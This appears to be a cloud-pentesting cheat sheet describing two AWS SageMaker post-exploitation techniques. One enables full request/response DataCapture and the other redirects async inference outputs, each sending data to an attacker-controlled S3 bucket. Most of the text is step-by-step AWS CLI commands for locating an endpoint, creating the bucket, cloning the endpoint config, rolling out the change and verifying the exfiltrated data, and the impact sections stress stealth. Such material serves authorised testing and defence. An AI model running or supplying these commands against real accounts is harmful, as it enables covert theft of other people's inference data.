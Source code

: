 # AWS - SageMaker Post-Exploitation

## SageMaker endpoint data siphon via UpdateEndpoint DataCaptureConfig

Abuse SageMaker endpoint management to enable full request/response capture to an attacker‑controlled S3 bucket without touching the model or container. Uses a zero/low‑downtime rolling update and only requires endpoint management permissions.

### Requirements
- IAM: sagemaker:DescribeEndpoint, sagemaker:DescribeEndpointConfig, sagemaker:CreateEndpointConfig, sagemaker:UpdateEndpoint
- S3: s3:CreateBucket (or use an existing bucket in the same account)
- Optional (if using SSE‑KMS): kms:Encrypt on the chosen CMK
- Target: An existing InService real‑time endpoint in the same account/region

### Steps
1) Identify an InService endpoint and gather current production variants

```
REGION=${REGION:-us-east-1}
EP=$(aws sagemaker list-endpoints --region $REGION --query "Endpoints[?EndpointStatus=='InService']|[0].EndpointName" --output text)
echo "Endpoint=$EP"
CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
echo "EndpointConfig=$CFG"
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CFG" --query ProductionVariants > /tmp/pv.json
```

2) Prepare attacker S3 destination for captures

```
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-capture-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION
```

3) Create a new EndpointConfig that keeps the same variants but enables DataCapture to the attacker bucket

Note: Use explicit content types that satisfy CLI validation.

```
NEWCFG=${CFG}-dc
cat > /tmp/dc.json << JSON
{
  "EnableCapture": true,
  "InitialSamplingPercentage": 100,
  "DestinationS3Uri": "s3://$BUCKET/capture",
  "CaptureOptions": [
    {"CaptureMode": "Input"},
    {"CaptureMode": "Output"}
  ],
  "CaptureContentTypeHeader": {
    "JsonContentTypes": ["application/json"],
    "CsvContentTypes": ["text/csv"]
  }
}
JSON
aws sagemaker create-endpoint-config \
  --region $REGION \
  --endpoint-config-name "$NEWCFG" \
  --production-variants file:///tmp/pv.json \
  --data-capture-config file:///tmp/dc.json
```

4) Apply the new config with a rolling update (minimal/no downtime)

```
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```

5) Generate at least one inference call (optional if live traffic exists)

```
echo '{"inputs":[1,2,3]}' > /tmp/payload.json
aws sagemaker-runtime invoke-endpoint --region $REGION --endpoint-name "$EP" \
  --content-type application/json --accept application/json \
  --body fileb:///tmp/payload.json /tmp/out.bin || true
```

6) Validate captures in attacker S3

```
aws s3 ls s3://$BUCKET/capture/ --recursive --human-readable --summarize
```

### Impact
- Full exfiltration of real‑time inference request and response payloads (and metadata) from the targeted endpoint to an attacker‑controlled S3 bucket.
- No changes to the model/container image and only endpoint‑level changes, enabling a stealthy data theft path with minimal operational disruption.

## SageMaker async inference output hijack via UpdateEndpoint AsyncInferenceConfig

Abuse endpoint management to redirect asynchronous inference outputs to an attacker-controlled S3 bucket by cloning the current EndpointConfig and setting AsyncInferenceConfig.OutputConfig S3OutputPath/S3FailurePath. This exfiltrates model predictions (and any transformed inputs included by the container) without modifying the model/container.

### Requirements
- IAM: sagemaker:DescribeEndpoint, sagemaker:DescribeEndpointConfig, sagemaker:CreateEndpointConfig, sagemaker:UpdateEndpoint
- S3: Ability to write to the attacker S3 bucket (via the model execution role or a permissive bucket policy)
- Target: An InService endpoint where asynchronous invocations are (or will be) used

### Steps
1) Gather current ProductionVariants from the target endpoint

```
REGION=${REGION:-us-east-1}
EP=<target-endpoint-name>
CUR_CFG=$(aws sagemaker describe-endpoint --region $REGION --endpoint-name "$EP" --query EndpointConfigName --output text)
aws sagemaker describe-endpoint-config --region $REGION --endpoint-config-name "$CUR_CFG" --query ProductionVariants > /tmp/pv.json
```

2) Create an attacker bucket (ensure the model execution role can PutObject to it)

```
ACC=$(aws sts get-caller-identity --query Account --output text)
BUCKET=ht-sm-async-exfil-$ACC-$(date +%s)
aws s3 mb s3://$BUCKET --region $REGION || true
```

3) Clone EndpointConfig and hijack AsyncInference outputs to the attacker bucket

```
NEWCFG=${CUR_CFG}-async-exfil
cat > /tmp/async_cfg.json << JSON
{"OutputConfig": {"S3OutputPath": "s3://$BUCKET/async-out/", "S3FailurePath": "s3://$BUCKET/async-fail/"}}
JSON
aws sagemaker create-endpoint-config --region $REGION   --endpoint-config-name "$NEWCFG"   --production-variants file:///tmp/pv.json   --async-inference-config file:///tmp/async_cfg.json
aws sagemaker update-endpoint --region $REGION --endpoint-name "$EP" --endpoint-config-name "$NEWCFG"
aws sagemaker wait endpoint-in-service --region $REGION --endpoint-name "$EP"
```

4) Trigger an async invocation and verify objects land in attacker S3

```
aws s3 cp /etc/hosts s3://$BUCKET/inp.bin
aws sagemaker-runtime invoke-endpoint-async --region $REGION --endpoint-name "$EP" --input-location s3://$BUCKET/inp.bin >/tmp/async.json || true
sleep 30
aws s3 ls s3://$BUCKET/async-out/ --recursive || true
aws s3 ls s3://$BUCKET/async-fail/ --recursive || true
```

### Impact
- Redirects asynchronous inference results (and error bodies) to attacker-controlled S3, enabling covert exfiltration of predictions and potentially sensitive pre/post-processed inputs produced by the container, without changing model code or image and with minimal/no downtime.

